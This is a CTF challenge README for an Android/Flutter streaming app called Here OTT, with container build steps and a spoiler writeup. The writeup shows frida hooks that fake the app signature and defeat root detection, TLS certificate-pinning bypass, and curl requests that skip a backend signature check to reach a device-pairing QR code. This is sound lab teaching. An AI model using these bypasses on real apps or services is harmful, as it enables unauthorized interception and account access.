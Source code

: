 # Here OTT

<p align="center">
    <img src="assets/mobileapp_main.png" alt="Mobile app main screen" height=400 />
    <br />
    <i>Main screen</i>
</p>

A <ins>rather complex, but medium difficulty mobile && web challenge</ins> where a single APK is given to the CTF solver which seems to present some kind of login page.

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Export the current working directory as a variable: `export CTF_ROOT=$PWD`
2. Build the native-api: `cd $CTF_ROOT/native-api && ./build.sh build` _(**NOTE**: the build argument is important, otherwise the image won't be prepared)_
    - Prepend `/* eslint-disable */` to the top of the `native-api/out/pkg/native_api.js` file: `sed -i '1s;^;/* eslint-disable */\n;' $CTF_ROOT/native-api/out/pkg/native_api.js`
3. Copy native-api to frontend: `rm -rf $CTF_ROOT/selfcare-frontend/src/wasm/*; cp $CTF_ROOT/native-api/out/pkg/native_api* $CTF_ROOT/selfcare-frontend/src/wasm/`
4. Build the frontend: `cd $CTF_ROOT/selfcare-frontend && ./build.sh build` _(**NOTE**: the build argument is important, otherwise the image won't be prepared)_
5. Copy the frontend to the backend: `rm -rf $CTF_ROOT/backend/assets/frontend/*; cp -r $CTF_ROOT/selfcare-frontend/out/dist/* $CTF_ROOT/backend/assets/frontend/`
6. Build the backend: `cd $CTF_ROOT/backend && ./build.sh build` _(**NOTE**: the build argument is important, otherwise the image won't be prepared)_
7. Optionally build the mobile app: `cd $CTF_ROOT/mobile-app && ./build.sh build` _(**NOTE**: the build argument is important, otherwise the image won't be prepared)_
8. Package and build the final container: `podman build -t ctf-here_ott:latest .`
9. Run it (feel free to replace the port): `podman rm -f hereott; podman run -d --name=hereott -p 8083:8083 -e BACKEND_PORT=8083 ctf-here_ott:latest`
10. Share the [mobile-app/out/app-release.apk](mobile-app/out/app-release.apk) with the participants

<details>
<summary>Writeup (Spoiler)</summary>

Upon exploring the [mobile app given to us](mobile-app/out/app-release.apk), we can see that it's a [flutter](https://flutter.dev/) based mobile app that bundles [mlkit](https://developers.google.com/ml-kit) (used for barcode recognition based on the context of the other files), some cert and libtoolChecker, which is part of a well-known root checker for Android, [RootBeer](https://github.com/scottyab/rootbeer):

<p align="center">
    <img src="assets/mobileapp_filetree.png" alt="Part of the mobile app's file tree" width="400" />
    <br />
    <i>Part of the mobile app's file tree</i>
</p>

If we try to log-in, we get invalid or missing credentials. There is also a QR code based log-in, but we don't know what's that for yet. We might also notice from the network activity/DNS logs or just by taking away the internet from the app, that it tries to load some kind of content and until that's loaded, several strings are just _Loading_ or _N/A_. Which suggests that there is some API it is interacting with. Therefore the goal is clear: we should capture the app's network traffic.

While in Java's case this would be a rather easy task, since we can hook the runtime APIs easily with [frida](https://frida.re/docs/android/) or even modify and recompile [dalvik](https://source.android.com/docs/core/runtime) bytecode, flutter is a different beast since it bundles the entire runtime into a native object and the app is compiled ahead of time. Static analysis is quite an insane task. As for patching and logging network calls... That is also relatively hard. There is however an effort to replace the flutter runtime with a patched one, that provides a lot of debugging layers: [reFlutter](https://github.com/ptswarm/reFlutter). This could be used to capture HTTP requests done by the app from dart.

However in this case it would most likely not work since the app checks its own signature and refuses to start if it detects tampering. We can check this very quickly by re-packing and re-signing the APK:

```
[steve@todo testapp]$ apktool d app-release.apk 
I: Using Apktool 2.8.1-dirty on app-release.apk
[...]
I: Copying META-INF/services directory
[steve@todo testapp]$ cd app-release/
[steve@todo app-release]$ ls
AndroidManifest.xml  apktool.yml  assets  kotlin  lib  META-INF  original  res  smali  unknown
[steve@todo app-release]$ apktool b .
I: Using Apktool 2.8.1-dirty
[...]
I: Built apk into: ./dist/app-release.apk
[steve@todo app-release]$ cd dist/
[steve@todo dist]$ keytool -genkeypair -alias myalias -keyalg RSA -keysize 2048 -validity 10000 -keystore mykeystore.jks
Enter keystore password:  
Re-enter new password: 
What is your first and last name?
  [Unknown]:  
What is the name of your organizational unit?
  [Unknown]:  
What is the name of your organization?
  [Unknown]:  
What is the name of your City or Locality?
  [Unknown]:  
What is the name of your State or Province?
  [Unknown]:  
What is the two-letter country code for this unit?
  [Unknown]:  
Is CN=Unknown, OU=Unknown, O=Unknown, L=Unknown, ST=Unknown, C=Unknown correct?
  [no]:  yes
[steve@todo dist]$ ~/Android/Sdk/build-tools/34.0.0/zipalign -f -v 4 app-release.apk app-release-zipaligned.apk 
Verifying alignment of app-release-zipaligned.apk (4)...
[...]
Verification succesful
[steve@todo dist]$ ~/Android/Sdk/build-tools/34.0.0/apksigner sign --ks ./mykeystore.jks --ks-key-alias myalias app-release-zipaligned.apk
Keystore password for signer #1:
[steve@todo dist]$ ls
app-release.apk  app-release-zipaligned.apk  app-release-zipaligned.apk.idsig  mykeystore.jks
[steve@todo dist]$ 
```

Now if we install this modified APK:

```
[steve@todo dist]$ adb install app-release-zipaligned.apk 
* daemon not running; starting now at tcp:5037
* daemon started successfully
Performing Incremental Install
Serving...
Performing Streamed Install
Success
```

<p align="center">
    <img src="assets/mobileapp_tamperdetected.png" alt="Mobile app shows tamper detected dialog and refuses to run" height=400 />
    <br />
    <i>The mobile app shows a tamper detected dialog and refuses to run</i>
</p>

Technically its possible to patch the signature validation if one knows that this isn't possible from flutter as app signatures are Android specific. Which means that this has to be done from Java:

<p align="center">
    <img src="assets/jadx_signaturecall.png" alt="The method that returns the build signature in JADX" height=400 />
    <br />
    <i>The method that returns the build signature in JADX</i>
</p>

One could come up with the following frida script, to fake the signature (the classes can be different if the app is rebuilt):

```js
let C4090c = Java.use("v2.c");
C4090c["b"].implementation = function (null) {
    console.log(`C4090c.m916b is called: null=${null}`);
    let result = "F64E4626A7E33C2DAD9669249337B69A8E124B33";
    return result;
};
```

Or they can even patch the signature check from dalvik bytecode and then fool the app into thinking that its official, but both methods are rather complicated and not required.

Luckily, instead of the regular dart HTTP calls, this app uses flutter_okhttp which is basically a layer between flutter and Java to do the requests from Java and okhttp.

We can setup [mitmproxy](https://mitmproxy.org) or some similar alternative and try to see if we can intercept the app's calls.

<p align="center">
    <img src="assets/proxy_settings.png" alt="Proxy settings for mitmproxy in Android" height=400 />
    <br />
    <i>Proxy settings for mitmproxy in Android (assuming the IP is 192.168.247.194 and the proxy is on port 8080)</i>
</p>

And it won't work:

<p align="center">
    <img src="assets/mobileapp_sslerror.png" alt="TLS certificate pinning failed shows inside the app" height=400 />
    <br />
    <i>TLS certificate pinning failed</i>
</p>

So the app checks the remote server's TLS certificate and if it doesn't match the one baked into the app, it will simply fail. This is a common practice in many mission critical applications and this happens, because mitmproxy uses its own cert in order to intercept HTTPS calls. At this point, one can replace the assets/cert.pem file in the APK, repack, resign and patch the signature verification and successfully pass this challenge, or they can root their device/emulator, get frida running on the device and then they can use a project called [frida-android-unpinning](https://github.com/httptoolkit/frida-android-unpinning). This frida script is able to detect and successfuly get rid of many basic TLS checks.

<p align="center">
    <img src="assets/mobileapp_rootdetected.png" alt="Root detected dialog shown by the app" height=400 />
    <br />
    <i>Root detected by the app</i>
</p>

If we use Magisk for root, this is really easy to get around with. All we need to do is open Magisk and put the HereOTT app to the denylist:

<p align="center">
    <img src="assets/magisk_denylist.png" alt="Magisk's denylist with HereOTT whitelisted" width=400 />
    <br />
    <i>Magisk's denylist</i>
</p>

If we don't, we must locate the root check, and patch it ourselves:

<p align="center">
    <img src="assets/jadx_rootcheck.png" alt="Root check method in JADX" width=400 />
    <br />
    <i>Root check method in JADX</i>
</p>

The following frida script could do the job:

```js
let C3984b = Java.use("t2.b");
C3984b["n"].implementation = function () {
    console.log(`C3984b.m1109n is called`);
    let result = false; // false means not rooted
    return result;
};
```

Now we are ready to run frida on the device, start the TLS unpinning script on the app and wait for the network calls to show up.

First I will start frida-server on the device:

```
[steve@todo ~]$ adb shell
davinci:/ $ su
davinci:/ # cd /data/local/tmp
davinci:/data/local/tmp # ./frida-server                                                                                                                                                                                                   
WARNING: generic atexit() called from legacy shared library
```

Then I will run the script:

```
[steve@todo Downloads]$ frida -U -f hu.honeylab.cyberquest.hereott -l ./frida-script.js 
     ____
    / _  |   Frida 16.1.4 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Mi 9T (id=3893b2b0)
Spawned `hu.honeylab.cyberquest.hereott`. Resuming main thread!         
[Mi 9T::hu.honeylab.cyberquest.hereott ]-> ---
Unpinning Android app...
[+] SSLPeerUnverifiedException auto-patcher
[+] HttpsURLConnection (setDefaultHostnameVerifier)
[+] HttpsURLConnection (setSSLSocketFactory)
[+] HttpsURLConnection (setHostnameVerifier)
[+] SSLContext
[+] TrustManagerImpl
[...]
Unpinning setup completed
---
  --> Bypassing Trustmanager (Android < 7) request
  --> Bypassing HttpsURLConnection (setDefaultHostnameVerifier)
  --> Bypassing Trustmanager (Android < 7) request
  --> Bypassing HttpsURLConnection (setDefaultHostnameVerifier)
  --> Bypassing Trustmanager (Android < 7) request
```

And we have successfully bypassed the TLS pinning:

<p align="center">
    <img src="assets/mitmproxy_config.png" alt="mitmproxy shows the app's config call" width=400 />
    <br />
    <i>mitmproxy shows the app's config call</i>
</p>

We see that it does the following request:

```
curl -H 'x-platform: Android' --compressed -H 'user-agent: okhttp/4.10.0' 'https://hereott.honeylab.hu:8083/v1/config?username=HereOttMobileApp&password=OTc5NjdhZjBkYjQ3OGU4NDJlMTZkYmY3YWVhNmU5M2E&version=1.0.0&app=hu.honeylab.cyberquest.hereott&uuid=91b1791b-8a40-48eb-b611-f6519e0c45bf -k'
```

Which gets me back:

```json
{"status":"OK","Token":{"key":"28f8b53e-e7cb-428d-a16b-b354e2cd2958","exp":"1696846051"},"Version":{"id":"42","appName":"HereOtt","version":"1.0.0"},"clientRegion":"Meseorszag","currency":"FABATKA","logCollectionUrl":"https://hereott.honeylab.hu:8083/v1/log","DeviceProfiles":[{"name":"Web_OTT_1080p"},{"name":"Web_OTT_720p"}],"apiBase":"https://hereott.honeylab.hu:8083","apiVersion":"v1","locale":"hu-HU","appsListUrl":"https://hereott.honeylab.hu:8083/files/apps_list_Meseorszag_v1.json","ParentalGuidanceRatings":[{"name":"0","value":"Visibly safe for children"},{"name":"12","value":"Not recommended for children under 12"}],"epgBackwardsDays":7,"epgForwardsDays":7,"epgFetchChunkSize":100,"watermarkedMedia":false,"loginWithCode":true,"pvrEnabled":true}
```

Seemingly nothing interesting here. We also have a login endpoint which gives back wrong username or password no matter what we feed it:

```
curl -H 'content-type: application/json; charset=utf-8' --compressed -H 'user-agent: okhttp/4.10.0' -X POST https://hereott.honeylab.hu:8083/v1/login -d '{"username":"test","password":"test"}' -k
```

Let's evaluate the values learnt from the config endpoint! First we see a URL to some logging call, but `https://hereott.honeylab.hu:8083/v1/log` returns `{}` to all requests.

Then there is `https://hereott.honeylab.hu:8083/files/apps_list_Meseorszag_v1.json`. If we query it, we get:


```json
[{"appid":"mediaplayer","name":{"en-GB":"Media Player","hu-HU":"Medialejatszo"},"logo":{"216x216":"https://localhost:56789/apps/MediaPlayer/images/mediaplayer.png"},"url":"https://localhost:56789/apps/MediaPlayer/index.html","description":"With the Media Player you can play your own content from a USB stick or from a DLNA server.","audio":true,"background":false,"profile":"MediaPlayer","privacyNotice":true,"consentNotice":true},{"appid":"selfcare","name":{"en-GB":"Selfcare","hu-HU":"Selfcare"},"logo":{"216x216":"https://hereott.honeylab.hu:8083/images/selfcare.png"},"url":"https://hereott.honeylab.hu:8083/selfcare/selfcare-frontend/","description":"With the Selfcare app you can manage your account. Pair and unpair your devices directly from your TV!","audio":false,"background":false,"profile":"SelfCare","privacyNotice":true,"consentNotice":true}]
```

There is not much we can do with the localhost URL, but the other one looks interesting. If we visit the link using a browser, we see the following:

<p align="center">
    <img src="assets/selfcare_ui.png" alt="The Selfcare webapp in a browser" width=400 />
    <br />
    <i>The Selfcare webapp in a browser</i>
</p>

This seems to be some kind of TV app according to the description that is able to add and remove devices. We see that clicking on both menus end up in an error toast. It also seems to be sending the following request:

```
curl 'https://hereott.honeylab.hu:8083/selfcare/selfcare-backend/devices' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'SerialNumber: 862-8632531' -H 'uuid: d3a35aed-0a76-44f4-bf68-0ca15daa5d81' -H 'uid: undefined' -H 'sig: undefined' -H 'Authorization: Basic aGVyZW90dHNlbGZjYXJlOmhlcmVvdHRzZWxmY2FyZQ==' -H 'Connection: keep-alive' -H 'Referer: https://hereott.honeylab.hu:8083/selfcare/selfcare-frontend/device-list' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' -H 'Sec-GPC: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'TE: trailers'
```

And the response is:

```json
{"error": "Signature mismatch"}
```

Not surprising, since it's indeed `undefined`.

If we check the stacktrace in the browser's developer console, we can very quickly see the caller method:

```js
fdl(e) {
    const n = i.Z.ServerUrl,
    t = {
    SerialNumber: e,
    uuid: this.generateUUID(),
    uid: (0, a.sq) ().toString(),
    sig: (0, a.Xx) (`${ n }/devices`, '').toString()
    },
    r = {
    username: 'hereottselfcare',
    password: 'hereottselfcare'
    };
    o.Z.get(`${ n }/devices`, {
    headers: t,
    auth: r
    }).then((e => {
    this.devices = e.data['devices']
    })).catch(
    (
        e => {
        console.error('Error fetching devices:', e),
        this.toast.error('Error fetching devices')
        }
    )
    )
},
```

Time to see what returns `undefined`. If we add breakpoints to the sig line, we can track down what does it call and after some wrapper calls, we end up at this method:

```js
function p(e, n) {
    let t,
    o;
    try {
    const s = r.__wbindgen_add_to_stack_pointer( - 16),
    d = v(e, r.__wbindgen_malloc, r.__wbindgen_realloc),
    l = f,
    h = v(n, r.__wbindgen_malloc, r.__wbindgen_realloc),
    p = f;
    r.sign(s, d, l, h, p);
    var i = u() [s / 4 + 0],
    a = u() [s / 4 + 1];
    return t = i,
    o = a,
    c(i, a)
    } finally {
    r.__wbindgen_add_to_stack_pointer(16),
    r.__wbindgen_free(t, o, 1)
    }
}
```

This seems to be wasm written in rust due to the bindgen references. Not good for us since rust + wasm is insanely hard to reverse engineer. But we can confirm that there is indeed a .wasm file loaded and used.

One might try to reverse engineer the whole wasm mess, but if we think about it, the reason why we might get `undefined` is because it tries to use some native API that exists only on the ISP provided TV boxes. Since its not available, it will simply return undefined. Which means that the server needs a valid Sig signature to continue. Does it though?

```
[steve@todo Downloads]$ curl 'https://hereott.honeylab.hu:8083/selfcare/selfcare-backend/devices' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'SerialNumber: 862-8632531' -H 'uuid: d3a35aed-0a76-44f4-bf68-0ca15daa5d81' -H 'uid: undefined' -H 'Authorization: Basic aGVyZW90dHNlbGZjYXJlOmhlcmVvdHRzZWxmY2FyZQ==' -H 'Connection: keep-alive' -H 'Referer: https://hereott.honeylab.hu:8083/selfcare/selfcare-frontend/device-list' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' -H 'Sec-GPC: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'TE: trailers' -k
{"error": "UID is missing or invalid"}
```

Woah, upon removal, we get a different error. Nice backend. ;) But now we need a valid UID... Let's pass `1` instead of `undefined`:

```
[steve@todo Downloads]$ curl 'https://hereott.honeylab.hu:8083/selfcare/selfcare-backend/devices' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'SerialNumber: 862-8632531' -H 'uuid: d3a35aed-0a76-44f4-bf68-0ca15daa5d81' -H 'uid: 1' -H 'Authorization: Basic aGVyZW90dHNlbGZjYXJlOmhlcmVvdHRzZWxmY2FyZQ==' -H 'Connection: keep-alive' -H 'Referer: https://hereott.honeylab.hu:8083/selfcare/selfcare-frontend/device-list' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' -H 'Sec-GPC: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'TE: trailers' -k
{"devices":[{"id":"5eeaac0e-afa9-47cc-a6b9-2f5650bb2615","name":"HereOTT MediaBox Pro","type":"stb","active":true}]}
```

And it works!

> In fact any fibonacci number between 1 and 20 should work.

There is even a device already in the listing. We can try to use some sketchy browser addon to modify the headers for us, we can also use curl, implement our own client, but Chrome has a handy override feature for scripts. I just modified the uid to 1 and got rid of the sig header:

<p align="center">
    <img src="assets/js_override.png" alt="Chrome's devtools with the modified script" width=400 />
    <br />
    <i>Chrome's devtools with the modified script</i>
</p>

If we now reload the page, we can see the following:

<p align="center">
    <img src="assets/device_list.png" alt="Device list of the TV app" width=400 />
    <br />
    <i>Device list of the TV app, now populated</i>
</p>

And if we navigate to the _'Pair a device'_ option, we can see the following:

<p align="center">
    <img src="assets/pairing.png" alt="Pairing menu of the TV app with a QR code" width=400 />
    <br />
    <i>Pairing menu of the TV app with a QR code</i>
</p>

If only we could scan this QR code... Actually, we could... There was a login with QR option in the mobile app. If we try to scan the QR code, we get the following:

<p align="center">
    <img src="assets/solution.png" alt="QR reader with a dialog and the flag" height=400 />
    <br />
    <i>Wohoo, we got the flag!</i>
</p>

Fun fact: Each QR code can be used only once. And the QR code contains an 8 digit random PIN. It's encrypted with AES-CBC 128 bit with PKCS7 padding. The QR code contains the key since it's in `0|<keyinbase64>|<encryptedpinbase64>` format. And the IV is returned by the selfcare backend's `/pair` endpoint too so it's actually not a must to use the app in order to decrypt the PIN, however it makes things easier.

I have also included a PoC script that can be used to go through the whole process: [poc.py](poc.py) Please note that it uses OpenCV2 for the QR code recognition, which isn't nearly as good as mlkit used by the app. If you get an error upon running, just re-run the script. I could have used a better model, but all other alternatives were either too big or too slow. OpenCV2 seemed to be a decent compromise.
</details>